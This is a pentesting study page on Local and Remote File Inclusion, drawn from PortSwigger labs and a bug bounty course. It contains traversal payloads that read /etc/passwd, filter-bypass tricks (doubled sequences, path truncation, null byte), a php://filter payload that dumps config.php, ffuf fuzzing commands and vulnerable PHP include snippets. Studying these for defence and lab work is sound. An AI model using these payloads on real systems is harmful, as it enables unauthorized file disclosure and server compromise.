






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# LFI & RFI

## General Information

### Template Engines

The common place we usually find LFI within is **template engines**. These keep the static parts of the web application the same when navigating between different pages. For example, `/index.php?page=about'`:

* `/index.php` sets the static content
* `?page=about` pulls the dynamic content, e.g. `about.php`

### Suggestive Parameters

A suggestive parameter is a parameter that hints at what it does via its name and it makes a good candidate for **directory traversal** flaws.


**Directory traversal** is a type of security vulnerability that allows an attacker to access files and directories that are stored outside the web root folder by manipulating variables that reference files with "dot-dot-slash" (`../`) sequences and other variants, which allow an attacker to traverse up the directory tree and access restricted files,


```bash
# search is a suggestive parameter
GET /search/<searchTerm>
# file is a suggestive parameter
GET /admin/manage?file=<fileName>
# download is a suggestive parameter
GET /download/someFileData
```

## LFI


**Local File Inclusion (LFI)** is a vulnerability where an attacker can trick a web application into including and executing files from the server's local filesystem.



This can lead to the exposure of sensitive information, execution of malicious scripts, and potentially complete server compromise.



Validate and sanitize user inputs, restrict file paths to trusted directories, and use proper access controls to prevent unauthorized file access.


LFI flaws can be exploited using [relative](lfi-and-rfi.md#simple-case) or [absolute](lfi-and-rfi.md#absolute-path) paths. If the application does not block traversal sequences (`../`), **default on using a relative path** as it will work on both cases. If unsure where you are (`pwd`) **keep adding `../`** as it won't break the path.

### Relative Path

> _The example below is based on PostSwigger's_ [_File path traversal, simple case_](https://portswigger.net/web-security/file-path-traversal/lab-simple) _lab._

```php
# String appended/prepended to the parameter
include("./languages/" . $_GET['language']);
```

<figure><figcaption><p>Figure 1: Identifying a potentially vulnerable to File Inclusion parameter.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Performing a File Inclusion fuzzing for the <code>/etc/passwd</code> file.</p></figcaption></figure>

### Absolute Path

> _The example below is based on PostSwigger's_ [_File path traversal, traversal sequences blocked with absolute path bypass_](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) _lab._

The absolute path can be used when the application's code use the whole input to read a file. This allows the attacker, given that no LFI filters are implemented, to read a file directly.

```php
# The whole input is used
include($_GET['language']);
```

We can try repeating the attack using different wordlists that including filter-bypassing techniques, like [LFI-Jhaddix.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt), with Burp's Intruder or an open-source CLI tool, such as [`ffuf`](../../../tools/web/dirbusting/fuff.md). In this case, two different payloads worked, one using the absolute path of the file and one that bypasses the path traversal sequence filter (Figure 4).


```bash
ffuf -u 'https://0a5c00d20469866d80b2ad6300c30006.web-security-academy.net/image?filename=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -c -ac -ic -mr 'root:'
```


<figure><figcaption><p>Figure 4: A successful LFI-fuzzing attack.</p></figcaption></figure>

## RFI


**Remote File Inclusion (RFI)** is a vulnerability where an attacker can include and execute a remote file on the web server via a script.



This can result in remote code execution, data theft, and complete control over the compromised server.



Disable remote file includes, validate and sanitize user inputs, and configure the server to only allow the inclusion of local files from trusted directories.


> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

In the example below, it is possible to access remote files using the application's `filename` parameter (Figure 5).

<figure><figcaption><p>Figure 5: An example of a Remote File inclusion vulnerability.</p></figcaption></figure>

## Filters

### File Traversal Filters

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Once common defense against FI attacks is by using **Search and Replace filters** which remove all instances of path traversal sequences (Figure 6.1). If these filters are **non-recursive**, i.e., run just a single time on the input string, it can be bypassed by doubling up the traversal sequence (Figure 6.2).

```php
# An example of a search and replace filter
$language = str_replace('../', '', $_GET['language']);
```

<figure><figcaption><p>Figure 6: Bypassing the traversal sequence filters.</p></figcaption></figure>

### Approved Paths

> _The example below is based on PostSwigger's_ [_File path traversal, validation of start of path_](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path) _lab._

A common protective technique against LFI is the use of regular expressions to ensure that the file being included is under a defined directory. This can be easily bypassed by **including the required directory within the payload** (Figure 7).


```php
# Using regex to "lock" down the directory
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }
```


<figure><figcaption><p>Figure 7: Exploiting LFI using by including the expected file path.</p></figcaption></figure>

### Filename Prefix


Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).


```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

### Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

#### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.

Based on the those characteristics, we can create very long strings that evaluate to the target path.


For this technique to work, we need to **start the path with a non-existing directory**.



```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```



```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```


#### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

## Other Techniques

### PHP Filters

Read the source code of PHP files.

```html
<!-- Exfiltrating the source code of the config.php file -->
/index.php?language=php://filter/read=convert.base64-encode/resource=config.php
```

For an example of this check [StreamIO](../../../boxes/medium/streamio.md#local-file-inclusion).

### Second-Order Attacks

The goal here is to **poison a database entry**, such as the registration name, so another web application functionality gets tricked. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted. For example, if a web application provides the option to download our avatar via `/profile/$username/avatar.png`, we could try crafting a malicious LFI-based username, such as `../../../etc/passwd`.
